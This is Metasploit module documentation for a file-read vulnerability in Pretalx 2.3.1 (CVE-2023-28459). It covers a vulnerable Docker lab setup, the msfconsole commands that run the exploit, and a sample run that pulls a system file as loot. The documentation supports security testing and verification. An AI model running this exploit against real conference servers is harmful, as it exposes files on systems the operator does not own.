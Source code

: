 ## Vulnerable Application

Pretalx is a web-based conference planning tool, used to manage call for paper submissions, talk selection and so on. It used by many major IT conferences - such as OffensiveCon, Hexacon,... Versions 2.3.1 and prior are vulnerable to arbitrary file read, which exploits unsanitized path in schedule export. Module requires existing conference for successful exploitation. 

Installation steps:

1. `git clone https://github.com/pretalx/pretalx-docker.git`
1. Change content of `docker-compose.yml` to following:
```
services:
  pretalx:
    image: pretalx/standalone:v2.3.1
      # image: pretalx/dev
    # build: .
    container_name: pretalx
    restart: unless-stopped
    depends_on:
      - redis
      - db
    environment:
      # Hint: Make sure you serve all requests for the `/static/` and `/media/` paths when debug is False. See [installation](https://docs.pretalx.org/administrator/installation/#step-7-ssl) for more information
      PRETALX_FILESYSTEM_MEDIA: /public/media
      PRETALX_FILESYSTEM_STATIC: /public/static
    ports:
      - "80:80"
    volumes:
      - ./conf/pretalx.cfg:/etc/pretalx/pretalx.cfg:ro
      - pretalx-data:/data
      - pretalx-public:/public

  db:
    image: docker.io/library/postgres:15-alpine
    container_name: pretalx-db
    restart: unless-stopped
    volumes:
      - pretalx-database:/var/lib/postgresql/data
    environment:
      POSTGRES_PASSWORD: veryunsecureplschange # same password as one that you will put in pretalx.cfg file later on
      POSTGRES_USER: pretalx
      POSTGRES_DB: pretalx

  redis:
    image: redis:latest
    container_name: pretalx-redis
    restart: unless-stopped
    volumes:
      - pretalx-redis:/data

volumes:
  pretalx-database:
  pretalx-data:
  pretalx-public:
  pretalx-redis:
```
1. `sudo docker-compose up`
1. Setup username and password
1. Go to `orga/event/` 
1. Create new conference
1. Go to `orga/event/[conference name]/schedule/rooms/`
1. Create a room
1. Go to `orga/event/[conference name]/` 
1. Make conference go live
1. `sudo docker exec -u 0 -it pretalx /bin/bash`
1. Make sure you have correct right on `/data` folder, so `pretalx` user can write export there


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/pretalx_file_read_cve_2023_28459`
1. Do: `set CONFERENCE_NAME [conference name]`
1. Do: `set USERNAME [username]`
1. Do: `set PASSWORD [password]`
1. Do: `set RHOSTS [target IP address]`
1. Do: `run`

## Options

### CONFERENCE_NAME

### FILEPATH

### MEDIA_URL

### USERNAME

### PASSWORD

## Scenarios
```
msf auxiliary(scanner/http/pretalx_file_read_cve_2023_28459) > run verbose=true 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected vulnerable version 2.3.1
[*] Register malicious proposal
[*] Logging with credentials: [username]/[password]
[*] Approving proposal
[*] Adding h85WcLe4t4 to schedule
[*] Releasing schedule
[*] Trying to extract target file
[*] Extraction successful
[*] Stored results in /home/ms/.msf4/loot/20250725165914_default_192.168.168.146_pretalx.etcpas_473038.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
